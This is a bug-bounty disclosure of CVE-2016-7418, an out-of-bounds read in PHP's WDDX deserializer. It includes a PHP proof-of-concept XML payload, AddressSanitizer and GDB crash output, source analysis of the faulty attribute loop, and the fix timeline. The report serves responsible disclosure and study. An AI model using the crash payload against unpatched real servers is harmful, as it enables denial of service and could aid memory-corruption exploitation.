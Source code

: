 # CVE-2016-7418 PHP Out-Of-Bounds Read in php_wddx_push_element

## Report Details
- **Report ID**: 170618
- **URL**: https://hackerone.com/reports/170618
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-09-20T02:33:52.954Z
- **Disclosed**: 2020-10-10T01:50:19.652Z

## Reporter
- **Username**: binvul
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
# CVE-2016-7418 PHP Out-Of-Bounds Read in php_wddx_push_element

## 1. Affected Version
+ PHP 7.0.10
+ PHP 5.6.25

## 2. Credit
This vulnerability was discovered by Ke Liu of Tencent's Xuanwu LAB.

## 3. Testing Environments
+ **OS**: Ubuntu
+ **PHP**: [7.0.10](http://php.net/distributions/php-7.0.10.tar.gz)
+ **Compiler**: Clang
+ **CFLAGS**: ``-g -O0 -fsanitize=address``

## 4. PoC
There are **five** similar issues in function ``php_wddx_push_element``, but I'll just demonstrate one issue here. More proof-of-concept files are available at [PHP BUG 73065](https://bugs.php.net/bug.php?id=73065).

```
<?php
    $xml = <<<XML
<?xml version='1.0' ?>
    <!DOCTYPE et SYSTEM 'w'>
    <wddxPacket ven='1.0'>
        <array>
            <var Name="name">
                <boolean value="keliu"></boolean>
            </var>
            <var name="1111">
                <var name="2222">
                    <var name="3333"></var>
                </var>
            </var>
        </array>
    </wddxPacket>
XML;
    
    $array = wddx_deserialize($xml);
    var_dump($array);
?>
```

## 5. Vulnerability Details

AddressSanitizer output the following exception information.

```
==47769==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 
    (pc 0x00000046fb9c bp 0x7ffc278e29b0 sp 0x7ffc278e2130 T0)
    #0 0x46fb9b in __interceptor_strcmp.part.24 (php-src/sapi/cli/php+0x46fb9b)
    #1 0xac41d4 in php_wddx_push_element php-src/ext/wddx/wddx.c:791:9
    #2 0x7fa8715ac67f in _init (/lib/x86_64-linux-gnu/libexpat.so.1+0x867f)
    #3 0x7fa8715ad38b in _init (/lib/x86_64-linux-gnu/libexpat.so.1+0x938b)
    #4 0x7fa8715aecad in _init (/lib/x86_64-linux-gnu/libexpat.so.1+0xacad)
    #5 0x7fa8715af404 in _init (/lib/x86_64-linux-gnu/libexpat.so.1+0xb404)
    #6 0x7fa8715b170a in XML_ParseBuffer (/lib/x86_64-linux-gnu/libexpat.so.1+0xd70a)
    #7 0xac1717 in php_wddx_deserialize_ex php-src/ext/wddx/wddx.c:1081:2
    #8 0xabad7a in zif_wddx_deserialize php-src/ext/wddx/wddx.c:1299:2
    #9 0xfdfb3d in ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER php-src/Zend/zend_vm_execute.h:675:2
    #10 0xe75f4b in execute_ex php-src/Zend/zend_vm_execute.h:432:7
    #11 0xe76ec3 in zend_execute php-src/Zend/zend_vm_execute.h:474:2
    #12 0xd00e9e in zend_execute_scripts php-src/Zend/zend.c:1464:4
    #13 0xad4425 in php_execute_script php-src/main/main.c:2537:14
    #14 0x10fca26 in do_cli php-src/sapi/cli/php_cli.c:990:5
    #15 0x10f9f60 in main php-src/sapi/cli/php_cli.c:1378:18
    #16 0x7fa86fec582f in __libc_start_main /build/glibc-GKVZIf/glibc-2.23/csu/../csu/libc-start.c:291
    #17 0x449578 in _start (php-src/sapi/cli/php+0x449578)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV (php-src/sapi/cli/php+0x46fb9b) in __interceptor_strcmp.part.24
==47769==ABORTING
```

AddressSanitizer indicates that this is a NULL pointer dereference issue. However, if we debug it under GDB, we'll find out that this can be a Out-Of-Bounds read issue.

```
(gdb) n
Program received signal SIGSEGV, Segmentation fault.
__strcmp_sse2_unaligned () at ../sysdeps/x86_64/multiarch/strcmp-sse2-unaligned.S:31
31	../sysdeps/x86_64/multiarch/strcmp-sse2-unaligned.S: No such file or directory.

(gdb) x/i $rip
=> 0x7ffff6da1b5a <__strcmp_sse2_unaligned+26>:	movdqu (%rdi),%xmm1

(gdb) i r $rdi
rdi            0x74656b6361507801	8387227955626014721

(gdb) x/20xb $rdi
0x74656b6361507801:	Cannot access memory at address 0x74656b6361507801
```

To some degree, the value of ``rdi`` register can be controlled. For example, value ``0x74656b6361507801`` can be expressed as ``\x01xPacket``. This can be controlled in the XML code in the proof-of-concept file.

```
>>> '74656b6361507801'.decode('hex')[::-1]
'\x01xPacket'
```

# 6. Source Code Analysis
The code lead to this issue is listed as follows.

```
790  if (atts) for (i = 0; atts[i]; i++) {
791      if (!strcmp((char *)atts[i], EL_NAME) && atts[++i] && atts[i][0]) {
792          if (stack->varname) efree(stack->varname);
793          stack->varname = estrdup((char *)atts[i]);
794          break;
795      }
796  }
```

Testing data to trigger this issue is listed as follows.

```
atts[0] = 0x0000000000cf8699  "Name"
atts[1] = 0x0000000000cf783c  "name"   EL_NAME
atts[2] = 0x0000000000000000  NULL
atts[3] = 0x74656b6361507801  ????
```

Here ``atts[2]`` was not checked in the ``for`` loop but in the ``if`` statement (checked when evaluating ``atts[++i]``). So when entering the ``if`` statement next time, ``strcmp(atts[3], EL_NAME)`` would cause an Out-Of-Bounds read issue.

## 7. Timeline
+ 2016.09.12 - Found
+ 2016.09.12 - Reported to PHP via [73065](https://bugs.php.net/bug.php?id=73065)
+ 2016.09.12 - Fixed
+ 2016.09.15 - Assigned CVE-2016-7418
+ 2016.09.15 - [PHP 7.0.10](http://www.php.net/ChangeLog-7.php#7.0.11) and [PHP 5.6.25](http://www.php.net/ChangeLog-5.php#5.6.26) Released


## Attachments
No attachments
